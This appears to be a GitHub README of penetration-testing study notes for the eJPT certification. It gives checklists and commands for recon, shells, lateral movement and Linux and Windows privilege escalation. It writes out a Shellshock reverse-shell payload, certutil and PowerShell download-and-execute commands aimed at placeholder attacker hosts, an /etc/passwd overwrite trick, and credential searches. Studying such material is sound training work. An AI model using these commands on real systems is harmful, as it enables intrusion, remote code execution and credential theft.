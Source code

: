 # eJPT Study Notes

- Reference: [eJPT Preparation Course | Penetration Testing by PhD Security](https://www.youtube.com/watch?v=pdgBU9MDAwE)

- [Web Recon](WebRecon.md)

- Skipping Web Attacks for now [23:32 - 6:00:00]

- [Network Recon](NetworkRecon.md)
- [FTP Enum Exploit](FTPEnumExploit.md)
- [Active Directory](ActiveDirectory.md)
- [Pivoting](Pivoting.md)

## Common Knowledge
### Discovery
```
# cgi-bin:
if cgi-bin is present, always perform shellshock attack on a login form.
    exploit:
    User-Agent: () { :;}; echo; /bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1
if the exploit doesnt work, try finding files in /cgi-bin using gobuster like .sh files .c files etc, then use Remote Code Injection vulnerability available in searchsploit.
```

### Initial Access
```
While grabbing a reverse shell either linux or windows use rlwrap
command:
    rlwrap nc -vnlp 1234
```
```
Converting to a full-tty shell after getting a shell:
    python -c 'import pty;pty.spawn("/bin/bash")
    <CLTR+Z>
    stty raw -echo
    fg
    <ENTER> <ENTER>
``` 

### Lateral Movement
- Reference #1: [https://sushant747.gitbooks.io/total-oscp-guide/content/windows.html](https://sushant747.gitbooks.io/total-oscp-guide/content/windows.html)
- Reference #2: [https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters)
- Reference #3: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- Reference #4: [https://fuzzysecurity.com/tutorials/16.html](https://fuzzysecurity.com/tutorials/16.html)


### Privilege Escalation
### Linux:
- Reference #1: [GTFObins](https://gtfobins.github.io/)
- Reference #2: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#looting-for-passwords)
- Reference #3: [HackTricks.xyz](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
```
Checklist:
  1) check sudo -l
  2) check for suid perms :
   ```
     # Find all SUID files:
     find / -perm -4000 -print
     # Find all SGID files:
     find / -perm -2000 -print  
     find / -perm -4000 -type f -exec ls -la {} 2>/dev/null"
     find / -perm -u=s -type f 2>/dev/null
   ```
  3) check mounts
  4) check others users in the host
  5) check kernel version/sudo version
  6) check cronjobs/services scheduled.
  7) check for config files or password files.
  9) check permission of /etc/shadow and /etc/passwd
 10) check the history of the bash shell by typing "history"
 11) find for password files in FS using "locate password | more"
 12) find SSH id_rsa or authorized keys using "find / -name id_rsa|root_key 2>/dev/null"

LOLBin:
  1) mkpasswd: To make new password for a new user/exisiting user, by editing the /etc/passwd or /etc/shadow
  command:
      mkpasswd -m sha-512 pass123
  2) openssl: TO make password in /etc/passwd
  command:
      openssl passwd pass123
  note: After generating this password, replace the 'x' in the /etc/passwd of the user with this string.

Uncommon SUID binaries:
  1) tmux
  2) cpulimit
  3) mawk

Tools available to automate PE
  1) linPEAS
  2) LinEnum
  3) enum4linux
```

### Windows:
- Reference #1: [LOLBAS](https://lolbas-project.github.io/)
- Reference #2: [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- Reference #3: [HackTricks.xyz](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
```
Checklist:
  1) Find the console history of powershell using the following command.
  command:
        C:\users\<username>\appdata\roaming\microsoft\windows\powershell\psreadline>type ConsoleHost_History.txt
  2) whoami /all
  note: 
  - if the output of the last command (/priv) has "SeImpersonatePrivilege" enabled, then PE can be done using potato attack. (rogue potato)
  - /groups is mainly used in AD environments.


LOLBin:
  1) certutil: Can be used to fetch files from a server.
  command:
        certutil -split -f -urlcache http://attacker-ip.com/exploit.exe 
  2) powershell: To put fetch files from a server.
  command:
        powershell -c 'IEX(New-Object Net.WebClient).downloadString("http://attacker.com/exploit.exe")'
  3) net use: If we need to fetch file from an smb server to the victim machine.
  command:
        net use \\<smb-ip>\share /u:username password
        cd \\<smb-ip>\share
        .\mimikatz.exe
  4) route print: To print the route as well as gives information about other hosts in the network.
  command:
        route print
  5) arp: To find all the hosts in the network and what devices it is communicating to.
  command:
        arp -a
  6) netstat: To find all the established connections on a host and all the available ports and their services.
  command:
        netstat -ano
  7) findstr: Finding sensitive strings within the victim filesystem.
  command:
        findstr /si password *.txt
        findstr /si password *.xml
        findstr /si password *.ini
        findstr /spin password *.*
  8) reg: Search for passwords in registry
  command:
        reg query HKLM /f password /t REG_SZ /s
  9) systeminfo: Get information of the system.
  command:
        systeminfo

  
  

Tools available to automate PE:
  1) Windows-Exploit-Suggester (suitable for older machines)
  2) winPEAS
  3) 411Hall/JAWS 
  4) PowerSploit/PowerUp
  5) enum4linux
```